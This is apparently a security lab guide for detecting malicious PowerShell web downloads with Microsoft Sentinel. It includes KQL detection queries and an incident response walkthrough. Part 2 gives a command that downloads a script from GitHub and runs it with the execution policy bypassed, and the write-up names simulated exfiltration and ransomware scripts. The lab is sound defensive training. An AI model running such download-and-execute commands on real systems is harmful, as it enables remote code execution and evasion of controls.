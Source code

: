 # PowerShell Suspicious Web Request Detection Lab

## Lab Purpose
Simulate, detect, investigate, and respond to malicious PowerShell activity involving remote script downloads using Microsoft Defender for Endpoint and Microsoft Sentinel.

---

## Explanation
Attackers often use legitimate tools like PowerShell to download and run malicious scripts. This allows them to bypass traditional defenses and blend into normal system activity. Detecting these actions is critical for identifying post-exploitation behaviors.

---

## Part 1: Create Alert Rule in Microsoft Sentinel

### **KQL Query:**
```kql
let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

### **Analytics Rule Settings:**
- **Name:** PowerShell Suspicious Web Request
- **Description:** Detects when PowerShell is used to download a file using Invoke-WebRequest.
- **Rule Enabled:** Yes
- **Schedule:** Every 4 hours
- **Lookup Data Range:** Last 24 hours
- **Stop query after alert is generated:** Yes
- **Entity Mappings:**
  - **Account**: Name = AccountName
  - **Host**: Name = DeviceName
  - **Process**: CommandLine = ProcessCommandLine
- **Incident Creation:** Automatically create incident and group all alerts into a single incident per 24 hours

---

## Part 2: Trigger the Alert
Run the following PowerShell commands on your VM to simulate malicious behavior:
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---

## Part 3: Work the Incident

### **Detection and Analysis**
- Incident triggered on: `windows-target-1`
- User reported a black screen at the time of activity.
- Confirmed PowerShell ran the following download commands:

```powershell
Invoke-WebRequest -Uri <URL> -OutFile C:\programdata\<script>.ps1
```

Scripts Downloaded:
1. `portscan.ps1`
2. `eicar.ps1`
3. `exfiltratedata.ps1`
4. `pwncrypt.ps1`

### **Execution Check**
Use the query below to confirm script execution:
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

### **Script Analysis Findings**
1. **portscan.ps1** - Scans local IP range for open ports.
2. **eicar.ps1** - Creates EICAR test file to simulate antivirus detection.
3. **exfiltratedata.ps1** - Creates fake data and uploads it to Azure blob storage.
4. **pwncrypt.ps1** - Creates and encrypts fake company files, drops ransom note.

### **Containment and Eradication**
- Isolated VM using Microsoft Defender for Endpoint
- Performed full malware scan (came back clean)

### **Post-Incident Actions**
- User completed cybersecurity training
- Upgraded KnowBe4 training and increased frequency
- Implemented policy restricting PowerShell for non-essential users

---

## Part 4: Cleanup
- In Sentinel → Threat Management → Incidents, delete your **closed** incident
- In Sentinel → Configuration → Analytics, delete your **custom** rule

**Important:** Only delete your own content. Use your name to filter if needed.

